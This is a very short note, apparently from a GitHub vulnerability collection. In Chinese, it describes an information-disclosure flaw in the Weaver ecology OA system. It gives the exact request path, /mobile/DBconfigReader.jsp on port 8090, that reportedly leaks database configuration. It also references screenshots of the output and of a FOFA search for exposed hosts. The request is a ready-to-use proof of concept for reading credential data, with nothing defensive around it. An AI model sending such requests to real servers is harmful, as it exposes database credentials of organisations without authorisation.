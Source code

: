 # DBconfigReader 泛微ecology OA系统接口存在数据库配置信息泄露漏洞

` http://x.x.x.x:8090/mobile/DBconfigReader.jsp`

![](./dbconfig.png)

![](./fofa.png)
